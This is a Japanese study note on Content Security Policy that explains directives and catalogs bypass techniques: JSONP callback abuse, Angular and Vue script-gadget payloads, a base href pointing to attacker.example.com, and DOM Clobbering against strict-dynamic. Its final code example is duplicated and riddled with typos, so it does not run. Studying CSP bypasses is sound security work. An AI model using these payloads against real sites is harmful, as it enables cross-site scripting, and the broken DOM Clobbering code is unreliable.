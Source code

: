# CSP Evaluator

## CSPとは
CSP(Content Security Policy)

CSPはXSSなどの*Content Injection攻撃*に対するリスクを軽減させるセキュリティレイヤーのこと。

具体的には

- ホスト名
	- スクリプトの配信元として信頼するサーバーのホスト名を指定する。スクリプトを読み込む際に参照されて信頼できるものとして含まれていない場合は実行しない。
- ハッシュ値
	- 実効するスクリプトのハッシュ値を先に計算しておき、そのハッシュ値と同じ場合のみ実行を許可する。
	- hash値が異なる場合 -> script が書き換わった場合実行しない
- 乱数
	- HTMLをレスポンス時に使い捨ての乱数スクリプトに付与し、付与時の乱数と等しい場合のみ実行する。
	- nonce 属性がついていない script 要素は実行しない

## CSPが設定されているか

CSPが設定されているかは以下の2パターンで確認できる。

**HTTPヘッダに含まれる場合**
```http
HTTP/1.1 200 OK
Host: example.com
...
Content-Security-Policy: script-src 'self'
...
```

**meta要素で記述する場合**
```html
<head>
	<meta 
		http-equiv="Content-Security-Policy" 
		content="script-src 'self'"
	>
</head>
```


## ディレクティブ
ディレクティブとは、CSPによる制限を定義するための命令記法のこと。
*\<directive-name\> \<directive-value\> ...* の順で書かれる
For exsample)
```directive
script-src 'self'
script-src 'self' 'unsafe-inline'
```

<!--
**script-srs** : スクリプトに関する制限を定義するディレクティブ。
|keyword|説明|
|---|---|
|'none'|あらゆるスクリプト|
|'self'|参照している HTML と Same-Origin であるスクリプトの実行を許可する|
|*host-source:* |ホスト名や IP アドレス、URLによって指定されたサーバーから配信されるスクリプトの実行を許可する。|
|'host-souce' 'nonce-\<base64-value\>'|Base64 形式の Nonce (使い捨ての乱数) を用いてスクリプトの実行を許可する。許可対象とするスクリプト要素の nonce 属性と同じ値にならない場合、そのスクリプトは実行されない。|
|'host-souce' '\<hash-algorithm\>-\<base64-value\>'|Base64形式のハッシュ値を用いてスクリプトの実行を許可する。ハッシュ値はスクリプトの内容をハッシュ化したもの。外部リソースの場合はスクリプトの integrity 属性にそのスクリプトのハッシュ値を入れる。|
|
**connect-src** : script interfaces API (XMLHttpRequest や Fetch API のこと) を介して通信可能なURLの制限を定義するディレクティブ。connect-src ディレクティブの値として指定されたURL以外のアクセスは禁止される。

**default-src** : Fetch Directives に属するディレクティブのフォールバックとして機能する。
[developer.mozilla.org CSP: default-src](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Content-Security-Policy/default-src)

**base-uri** : base要素で可能なドキュメントの相対URLの起点を制限するディレクティブ。**none** なら安全

-->

## Bypassing

### ホストベースの構成
---
```http
Content-Security-Policy: script-src 'self' csp.example.com
```
のようになっている場合
以下の２点をチェックする

**JSONPエンドポイントの有無**

> *csp.example.com* からスクリプトを返させることによって SOP(Same-Origin-Policy) の制限をバイパスする手法。

Attacker -> Target
```html
<script src="csp.example.com/jsonp?callback=alert(1)//"></script>
```

Target -> csp.example.com
```text
csp.example.com/jsonp?callback=alert(1)//
#通常 callback 関数を要求していますが、今回はalertが渡されている
```

csp.example.com -> Target
```javascript
alert(1)//({name:aaaa})
// "alert(1)//" に引数を付けて返すがコメントアウトされ alert(1) が実行される
```


**サーバのライブラリ**

> ライブラリに含まれる Script Gadget と呼ばれるスクリプトの挿入を可能にするスクリプトを利用する。

Angular.js の場合
```html
<script src="csp.example.com/angular.js"></script>
<div ng-app ng-csp>{{ eval.constructor('alert(1)')() }}</div>
```

Vue.js の場合
```html
<script src="cdn.example.com/vue.js"></script>
<div>{{ constructor.constructor('alert(1)')() }}</div>
```



### ディレクティブの設定不備により脆弱性が生まれるパターン
---

> 設定の不備については
[CSP Evaluator](https://csp-evaluator.withgoogle.com/)にて脆弱性を確認できる。

**base-uri** 設定不備の際
```html
<base href="http://attacker.example.com">
```
とすることでそれ以下の\<script src="/test.js"\>となっている箇所を
http://attacker.example.com/test.js と参照先を変えることが可能


### DOM Clobbering による strict-dynamic のバイパス
---
> script-src ディレクティブに strict-dynamic が設定されている場合、DOM Clobbering と呼ばれる手法を用いて CSP をバイパスできる場合がある。
> > **strict-dynamic** : parser-incerted (\<img src="/"  onerror="\<script\>alert(1)\</script>"\>) などを防ぐ設定
> > 
> > **DOM Clobbering** とは、HTML 内に不正な HTML を挿入することで本来の DOM 構造を破壊し、JavaScrip による DOM 操作の内容を強制的に変更させる手法のこと。

**DOM Clobbering**

*document.getElementById('name')* などが存在するときは、
もともとの idの値よりも前の段階で そのidの値 を使用することで DOM 構造を破壊できる。

攻撃例)
```html
<script>
	windows.onload = () {
		const name = (new URL(location).searchParams).get('name');
		document.getElemetById('name').intterHTML = name;
	}
</script>
<p id="name"></p>
```

```html
<script>
	windows.onload = () {
		const name = (new URL(location).searchParams).get('name');
		document.getElemetById('name').intterHTML = name;
	}
</script>
<p id="name"></p>
```